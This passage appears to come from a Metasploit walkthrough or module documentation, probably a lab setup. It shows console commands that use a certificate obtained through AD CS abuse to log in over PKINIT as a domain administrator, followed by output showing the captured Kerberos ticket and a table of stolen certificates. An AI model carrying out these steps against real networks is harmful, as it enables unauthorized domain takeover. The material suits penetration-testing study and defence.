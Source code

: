 ```
msf6 auxiliary(admin/dcerpc/icpr_cert) >
```

Finally lets use the new PFX file with the `pkinit_login` to log in as the domain administrator user `Administrator@daforest.com`:

```
msf6 auxiliary(admin/dcerpc/icpr_cert) > use auxiliary/admin/kerberos/pkinit_login
msf6 auxiliary(admin/kerberos/pkinit_login) > set RHOSTS 172.30.239.85
RHOSTS => 172.30.239.85
msf6 auxiliary(admin/kerberos/pkinit_login) > set CERT_FILE /home/gwillcox/.msf4/loot/20221216180342_default_unknown_windows.ad.cs_390825.pfx
CERT_FILE => /home/gwillcox/.msf4/loot/20221216180342_default_unknown_windows.ad.cs_390825.pfx
msf6 auxiliary(admin/kerberos/pkinit_login) > run
[*] Running module against 172.30.239.85

[*] Attempting PKINIT login for Administrator@daforest.com
[+] Successfully authenticated with certificate
[*] 172.30.239.85:88 - TGT MIT Credential Cache ticket saved to /home/gwillcox/.msf4/loot/20221216181438_default_172.30.239.85_mit.kerberos.cca_460041.bin
[*] Auxiliary module execution completed
msf6 auxiliary(admin/kerberos/pkinit_login) > loot

Loot
====

host           service  type                 name             content                   info                                                                     path
----           -------  ----                 ----             -------                   ----                                                                     ----
                        windows.ad.cs        certificate.pfx  application/x-pkcs12      DAFOREST\normal Certificate                                              /home/gwillcox/.msf4/loot/20221216173718_default_unknown_windows.ad.cs_580032.pfx
                        windows.ad.cs        certificate.pfx  application/x-pkcs12      DAFOREST\normal Certificate                                              /home/gwillcox/.msf4/loot/20221216174221_default_unknown_windows.ad.cs_027866.pfx
                        windows.ad.cs        certificate.pfx  application/x-pkcs12      DAFOREST\normal Certificate                                              /home/gwillcox/.msf4/loot/20221216174559_default_unknown_windows.ad.cs_570105.pfx
                        windows.ad.cs        certificate.pfx  application/x-pkcs12      DAFOREST\normal Certificate                                              /home/gwillcox/.msf4/loot/20221216180342_default_unknown_windows.ad.cs_390825.pfx
172.30.239.85           mit.kerberos.ccache                   application/octet-stream  realm: DAFOREST.COM, client: administrator, server: krbtgt/daforest.com  /home/gwillcox/.msf4/loot/20221216181438_default_172.30.239.85_mit.kerberos.cca_460041.bin

msf6 auxiliary(admin/kerberos/pkinit_login) >
```
